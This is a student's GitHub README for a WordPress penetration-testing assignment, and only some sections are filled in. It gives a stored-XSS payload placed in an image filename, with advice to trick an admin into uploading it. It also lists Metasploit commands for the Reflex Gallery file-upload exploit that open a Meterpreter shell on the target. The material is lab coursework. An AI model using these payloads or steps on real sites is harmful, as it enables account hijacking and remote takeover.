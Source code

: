 # cis221_codepath

See branches for assignments.

# Project 7 - WordPress Pentesting

Time spent: **25** hours spent in total

> Objective: Find, analyze, recreate, and document **five vulnerabilities** affecting an old version of WordPress

## Pentesting Report

### 1. CVE-2016-7168 -- WordPress 2.5-4.6 - Authenticated Stored Cross-Site Scripting via Image Filename 
  - [ ] Summary: Cross-site scripting (XSS) vulnerability in the media_handle_upload function in wp-admin/includes/media.php in WordPress before 4.6.1 might allow remote attackers to inject arbitrary web script or HTML by tricking an administrator into uploading an image file that has a crafted filename. 
    - Vulnerability types: Cross-site scripting
    - Tested in version: WordPress 4.2
    - Fixed in version: WordPress 4.6.1
  - [ ] GIF Walkthrough: <img src="https://github.com/peelingwave/cis221_codepath/blob/Week-7%268-Project-Wordpress-Vs.-Kali/Pentest1-WP4.2-XSS_ImageUpload_exploit-marvin_codepath.gif" alt="Walkthrough" style="max-width: 100%;">
  - [ ] Steps to recreate: 
    -  1. Confirm WordPress target host is vulnerable. WP version must be 2.5-4.6.
    -  2. Create an image file and insert '<img src=a onerror=alert(document.cookie)>' into the filename. This is the paylod script that will cause a javascript alert. For example, I used "marvinc0d3p4th<img src=a onerror=alert(document.cookie)>.jpg"
    -  3. Use social engineering to have admin of target host to upload image file as an attachment page. Even better is if you can get the admin to use the created attachment page url to embed into a post. 
<img src="https://github.com/peelingwave/cis221_codepath/blob/Week-7%268-Project-Wordpress-Vs.-Kali/Pentest1-WP4.2-XSS_ImageUpload_exploit-marvin_codepath.png">
  - [ ] Affected source code: (https://github.com/WordPress/WordPress/commit/c9e60dab176635d4bfaaf431c0ea891e4726d6e0)
  
Reference: https://sumofpwn.nl/advisory/2016/persistent_cross_site_scripting_vulnerability_in_wordpress_due_to_unsafe_processing_of_file_names.html


### 2. CVE-2015-4133 -- WordPress Plugin Reflex Gallery - Arbitrary File Upload (Metasploit) 
  - [ ] Summary: This module exploits an arbitrary PHP code upload in the WordPress Reflex Gallery version 3.1.3. The vulnerability allows for arbitrary file upload and remote code execution. 
    - Vulnerability types: Arbitrary file upload, remote code execution.
    - Tested in version: WordPress 4.2, ReFlex Gallery plugin 3.1.3
    - Fixed in version: ReFlex Gallery plugin 3.1.4
  - [ ] GIF Walkthrough: 
  - [ ] ![WP_reflex_gallery_pwned](https://user-images.githubusercontent.com/98624766/163491702-53e1d5cb-5cbf-4be2-b410-b855596067fd.gif)
  - [ ] Steps to recreate: 
    -  1. Confirm WordPress target host is vulnerable. Reflex Gallery plugin version older than 3.1.4 must be installed and activated.
      -  1a. Upload image into Reflex gallery plugin.
    -  2. Add Reflex gallery shortcode into post. 
    -  ![WP_reflex_gallery_pages](https://user-images.githubusercontent.com/98624766/163492792-0498b52d-a217-4414-9fbb-126535e69990.png)

    -  3. Run metasploit from attacker machine using the following commands:
        - sudo service postgresql start
        - sudo msfdb init
        - msfconsole
    -  3a. in msfconsole shell, run the following commands to install the metasploit payload and create a connection with the target machine:
        - db_status
        - search Reflex #output should be: exploit/unix/webapp/wp_reflexgallery_file_upload
        - use exploit/unix/webapp/wp_reflexgallery_file_upload
        - info
        - set RHOST <url.of.target.machine>
        - set LHOST <url.of.attacker.machine>
        - exploit
    -  4. Meterpreter shell running, run the following commands to start a new shell inside the target machine:
        - shell
  
  - [ ] Affected source code:
    - [Link 1](https://core.trac.wordpress.org/browser/tags/version/src/source_file.php)
  - References:
  - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2015-4133
  - Reflex Plugin 3.1.3 zip: [reflex-gallery.3.1.3.zip](https://github.com/peelingwave/cis221_codepath/files/8492582/reflex-gallery.3.1.3.zip)

### 3. WordPress Olimometer 2.56 SQL Injection
  - [ ] Summary: WordPress Olimometer plugin versions 2.56 and below suffer from a remote SQL injection vulnerability.
    - Vulnerability types:SQLI
    - Tested in version: WP 4.2, Olimometer 2.56
    - Fixed in version: Olimometer 2.57
  - [ ] GIF Walkthrough: 
  - [ ] Steps to recreate: 
    1. Install Olimometer 2.56 or older onto target machine. [olimometer.2.56.zip](https://github.com/peelingwave/cis221_codepath/files/8492878/olimometer.2.56.zip)

    2. 
  - [ ] Affected source code:
    - [Link 1](https://core.trac.wordpress.org/browser/tags/version/src/source_file.php)


### 4. (Optional) Vulnerability Name or ID
  - [ ] Summary: 
    - Vulnerability types:
    - Tested in version:
    - Fixed in version: 
  - [ ] GIF Walkthrough: 
  - [ ] Steps to recreate: 
  - [ ] Affected source code:
    - [Link 1](https://core.trac.wordpress.org/browser/tags/version/src/source_file.php)
### 5. (Optional) Vulnerability Name or ID
  - [ ] Summary: 
    - Vulnerability types:
    - Tested in version:
    - Fixed in version: 
  - [ ] GIF Walkthrough: 
  - [ ] Steps to recreate: 
  - [ ] Affected source code:
    - [Link 1](https://core.trac.wordpress.org/browser/tags/version/src/source_file.php) 

## Assets

List any additional assets, such as scripts or files

## Resources

- [WordPress Source Browser](https://core.trac.wordpress.org/browser/)
- [WordPress Developer Reference](https://developer.wordpress.org/reference/)

GIFs created with [LiceCap](http://www.cockos.com/licecap/).

## Notes

Describe any challenges encountered while doing the work

## License

    Copyright [yyyy] [name of copyright owner]

    Licensed under the Apache License, Version 2.0 (the "License");
    you may not use this file except in compliance with the License.
    You may obtain a copy of the License at

        http://www.apache.org/licenses/LICENSE-2.0

    Unless required by applicable law or agreed to in writing, software
    distributed under the License is distributed on an "AS IS" BASIS,
    WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
    See the License for the specific language governing permissions and
    limitations under the License.
